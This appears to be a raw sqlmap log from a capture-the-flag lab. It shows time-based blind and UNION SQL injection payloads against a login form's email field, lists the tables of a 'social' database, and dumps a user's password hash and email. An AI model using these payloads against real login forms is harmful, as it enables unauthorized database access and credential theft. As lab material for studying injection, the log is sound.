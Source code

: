   ~~~bash
  sqlmap resumed the following injection point(s) from stored session:
  ---
  Parameter: log_email (POST)
      Type: time-based blind
      Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
      Payload: log_email=hola' AND (SELECT 4129 FROM (SELECT(SLEEP(5)))IkBb) AND 'XRpP'='XRpP&log_password=123&login_button=Login
  
      Type: UNION query
      Title: Generic UNION query (NULL) - 12 columns
      Payload: log_email=hola' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a706a71,0x4b466a5266706b587069506a556c6e4b784d6b62456c684f77584177774f504679676d4c55446359,0x7162717a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&log_password=123&login_button=Login
  ---
  [01:42:16] [INFO] the back-end DBMS is MySQL
  back-end DBMS: MySQL >= 5.0.12
  [01:42:16] [INFO] fetching tables for database: 'social'
  [01:42:16] [INFO] resumed: 'comments'
  [01:42:16] [INFO] resumed: 'friend_requests'
  [01:42:16] [INFO] resumed: 'likes'
  [01:42:16] [INFO] resumed: 'messages'
  [01:42:16] [INFO] resumed: 'notifications'
  [01:42:16] [INFO] resumed: 'posts'
  [01:42:16] [INFO] resumed: 'trends'
  [01:42:16] [INFO] resumed: 'users'
  Database: social                                                                                                                                                                  
  [8 tables]
  +-----------------+
  | comments        |
  | friend_requests |
  | likes           |
  | messages        |
  | notifications   |
  | posts           |
  | trends          |
  | users           |
  +-----------------+
  
  [01:42:16] [INFO] fetching SQL SELECT statement query output: 'select id,password,email,username from users where username like '%santa%''
  got a 302 redirect to 'http://10.10.29.192:80/index.php'. Do you want to follow? [Y/n] n
  [01:42:20] [WARNING] the SQL query provided does not return any output
  [01:42:20] [INFO] the SQL query provided has more than one field. sqlmap will now unpack it into distinct queries to be able to retrieve the output even if we are going blind
  [01:42:20] [WARNING] time-based comparison requires larger statistical model, please wait............................. (done)                                                     
  [01:42:22] [CRITICAL] considerable lagging has been detected in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more)
  [01:42:22] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
  1
  [01:42:27] [INFO] retrieved: 1
  [01:42:38] [INFO] retrieved: f1267830a78c0b59acc06b05694b2e28
  [01:52:31] [INFO] retrieved: bigman@shefesh.com
  [01:57:20] [INFO] retrieved: santa_claus
  select id,password,email,username from users where username like '%santa%' [1]:
  [*] 1, f1267830a78c0b59acc06b05694b2e28, bigman@shefesh.com, santa_claus
  
  [*] ending @ 02:00:15 /2020-10-01/
  ~~~
